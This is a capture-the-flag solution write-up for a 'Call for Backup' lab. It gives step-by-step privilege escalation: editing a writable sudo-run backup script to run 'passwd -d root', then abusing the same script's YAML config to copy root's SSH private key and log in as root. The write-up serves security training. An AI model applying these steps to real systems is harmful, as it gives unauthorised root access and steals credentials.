 # Call for Backup Solution


### Web Server Flag

This solution will make the root account passwordless by leveraging the write permissions on the backup script.

1. From the backup server, SSH into the web server (no password needed)
2. Open the backup script with your favorite editor: `/usr/local/bin/backup.py`
3. Add a new function called `delete_password()`:

  ```
   def delete_password():
     cmd = [‘passwd -d root’]
     process = subprocess.Popen(cmd,shell=False)
     process = process.communicate()
  ```

4. Within the `main()` function, comment out all lines that refer to `backup_parser` and `restore_parser`:

```
def main():

  import argparse

  parser = argparse.ArgumentParser()
  subparser = parser.add_subparsers()

  #backup_parser = subparser.add_parser('backup')
  #backup_parser.add_argument(nargs='?',dest='config', default='backup.yaml')
  #backup_parser.set_defaults(func=backup)

  #restore_parser = subparser.add_parser('restore')
  #restore_parser.add_argument(nargs='?',dest='config', default='restore.yaml')
  #restore_parser.set_defaults(func=restore)

```

5. Add a call to the `delete_password()` function somewhere in the main() function:

```
def main():

  import argparse

  delete_password()

  parser = argparse.ArgumentParser()
  subparser = parser.add_subparsers()

  #backup_parser = subparser.add_parser('backup')
  #backup_parser.add_argument(nargs='?',dest='config', default='backup.yaml')
  #backup_parser.set_defaults(func=backup)

  #restore_parser = subparser.add_parser('restore')
  #restore_parser.add_argument(nargs='?',dest='config', default='restore.yaml')
  #restore_parser.set_defaults(func=restore)

```

6. Run the script with the user account using sudo: `sudo backup.py`
7. Log into the root account: `su - root`
8. Obtain the flag from within: `/root`

### Database Server Flag

This solution will require the user to analyze the code and see that you can specify an alternative .yaml file to the backup command.

1. From the backup server, SSH into the database server (no password needed)
2. Create a new backup yaml file called: `new_backup.yaml` with the following contents:

```
host: db
backup_host: db
mount_points:  
  - /root/.ssh
```

3. Run the backup scripts using `sudo` and specify the newly created file as an argument: `sudo backup.py backup new_backup.yaml`
4. The above command returns a tar file in the user's home directory. Extract the contents: `tar -zxf <backup_name>`
5. Create an ssh-agent session:

```
eval `ssh-agent`
```

6. Add root's private key to the ssh-agent session: `ssh-agent add root/.ssh/id_rsa`
7. SSH into the database server as root from the user account: `ssh root@db`
8. Obtain the flag from within: `/root`

### Submission

The flag is generated by infinity and will change with each challenge iteration.